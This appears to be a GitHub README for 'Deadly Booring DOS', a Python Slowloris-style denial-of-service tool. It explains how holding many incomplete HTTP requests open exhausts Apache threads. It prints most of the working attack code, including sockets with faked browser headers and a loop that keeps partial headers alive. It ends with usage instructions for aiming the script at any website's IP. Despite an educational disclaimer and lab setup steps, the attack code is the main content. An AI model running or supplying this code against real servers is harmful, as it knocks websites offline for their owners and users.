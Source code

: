 # Deadly Booring DOS

Denial of Service attacks do not always have to flood the server with requests to make him shut down. Deadly Booring DOS takes a much more elegant appraoch: Instead sending as much data as possible, we send as little data as we can.
DeadlyBooring is a free interpretation of SlowLoris DOS.

### *Preface*

Deadly Booring DOS was purely written for educational researches. I am going to explain how you can set up a simple appache website on one of your old machines that you can use to test DeadlyBooring. Never run such an attack against IP addresses that are not under your control. Never abuse the script to harm anybody. You got your own responsibility.

# The Idea

DeadlyBoorig DOS looks at DOS attacks from a different perspective. To understand how it works, we first need to understand internet protocols in general. What our browser is doing when we enter *<http://www.github.com>* is sending a HTTP GET Request to the IP address of the github servers (which is *192.30.253.113*, by the way) to the port 80, which is usually used to serve HTTP Requests. Such a HTTP GET request may say *"Please give me the /joelbarmettlerUZH/DeadlyBooring_DOS site"*, to which the github servers will respond with the corresponding HTML file.

## HTTP GET Requests
---

The normal usage of such GET requests is to just type an URL into your browser, which then asks the DNS server to convert github.com into an IP and formulates the right GET request for all the content that needs to be displayed, such as images and scripts. The browser asks for data - the server responds - done.

The interesting thing is that such HTTP GET requests follow a well defined schema: They start with the content the browser is asking for, followed by the used Protocol *(HTTP/1.1)*, ended with two line-break characters \n\n. As long as the server does not retreive these two newline characters, he is waiting for more data to come, thinking the browser has a temporary internet loss or simply a slow connection. Eventually, when the server does not hear anything from the browser for a bunch of seconds, he drops the connection to the browser again. This is quiet a normal behaviour.

## Apache Servers
---

DeadlyBooring DOS is now making use of this server behaviours: Most of the internet servers (arround 50%) run on apache, an open source HTTP Server Project. Appache is built in a way that the server opens a new Thread for every user that is requesting content, answering his requests until it is done. A small server only has a limited amount of such threads he can have opened simultaniously - meaning he can only serve a limited amount of users at once. Normally, this is no problem at all, since small websites rarely have several hundret users that want to make a request to the werbserver in the same second. What DeadlyBooring DOS does is opening up connections to all threads on the appache webserver and making an unfinished HTTP GET Request every few seconds, which makes the thread wait for more data and therefore prevents the webserver from closing the connection. This means that we pretend to be several hundret users with a deadly slow internet connection, making the whole server wait for data to come, but we will never finish sending our incomplete requests every few seconds.

While the server has all its threads dedicated to our script, the webserver will not answer any other GET requests from other users, since he is busy waiting for our nonsense data. Meanwhile, our computer barely needs any computing power since all we do is sending several hundrets tiny small data packages to a server every second - which is by no means a task you would even recognize running in your background.

# The Code

The code is fairly simple and just under 50 lines. First, we create the DeadlyBooring class and provide it with information about to what IP we would like to lead our attack to, as well as the Port (80 is the standard port for webserver) and the number of parallel connections that we want to establish. Lastly, we fake some HTTP GET header information to make our requests plausible to the server.

```python
class DeadlyBooring():
    def __init__(self, ip, port=80, socketsCount = 200):
        self._ip = ip
        self._port = port
        self._headers = [
            "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)",
            "Accept-Language: en-us,en;q=0.5"
        ]
```

## Create sockets
---

Next, we want to create our sockets. We define a method that connects a new websocket with the dedicated protocol types to the IP and Port that we specified. We send him a first GET request and the HTTP header information. Some error handling ensures that an error would not lead the DOS to stop but would just try creating a new socket instead.

```python
    def newSocket(self):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((self._ip, self._port))
            s.send(self.getMessage("Get /?"))
            for header in self._headers:
                s.send(bytes(bytes("{}\r\n".format(header).encode("utf-8"))))
            return s
        except socket.error as se:
            print("Error: "+str(se))
            time.sleep(0.5)
            return self.newSocket()
```

Now we just have to create a list with a few hundrets of such sockets that we can then use for our DOS attack.

```python
self._sockets = [self.newSocket() for _ in range(socketsCount)]
```

## Attack-method
---

Now let's finally write the attack method. It is actually really simple: For all sockets, we send a get request with the *X-a* header field, keeping the request open and making the server wait for the rest of the data. After each sent request, we wait vor a short period of time before sending the next one, with making sure that every socket sends data at least once every couple of seconds so that the connection is not lost. Every lost socket is immediatelly replaced with a new one taking its place, guaranteeing that free server threads are populated again.

```python
    def attack(self, timeout=sys.maxsize, sleep=15):
        t, i = time.time(), 0
        while(time.time() - t < timeout):
            for s in self._sockets:
                try:
                    print("Sending request #{}".format(str(i)))
                    s.send(self.getMessage("X-a: "))
                    i += 1
                except socket.error:
                    self._sockets.remove(s)
                    self._sockets.append(self.newSocket())
                time.sleep(sleep/len(self._sockets))
```

# Testing

In order to test our code, we need to create a protected environment, since we can not just start a DOS attack on some server that we do not own. As a simple option, you can use some old hardware and run [wamp](http://www.wampserver.com/en/) on it. Install and run WAMPServer on your second device and test the connection by visiting [localhost:80](localhost:80), which should give you the default wamp interface, indicating that your server is running. If you want to go fancy, create a simple HTML file in the *www* directory where you installed whamp. Now open the command promt on your second device and run

```sh
ipconfig
```

which will give you your local IP-Address (lets assume here that the devices IP is 192.168.0.33). Test the connection to your second device via typing "192.168.0.33:80" into your browser, letting you directly access the webpage you created on your second device. If you see nothing, make sure both devices are connected to the same router, your WAMP is running and no firewall is blocking the access. Otherwise, make sure that in the WAMP httpd_config file, you set the restrictions to LOCAL (google for further instructions). If it works, try calling DeadlyBooring on the same IP on Port 80. Refresh your page and you will see that you will get no response from the server (note that the website may be cashed, so you will sill see the page).

## Usage
---

In order to run  `DeadlyBooringDOS.py`

Write the command as:

```
python3 DeadlyBooringDOS.py <target_ip>
```

To get ip address of any website, just open a `terminal` and type:

 ``` 
 ping website.com
```

You will get the website ip, just copy it and paste it.


## License
----

MIT License

Copyright (c) 2018 Joel Barmettler

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

Hire us: [Software Entwickler in Zürich](https://polygon-software.ch)!
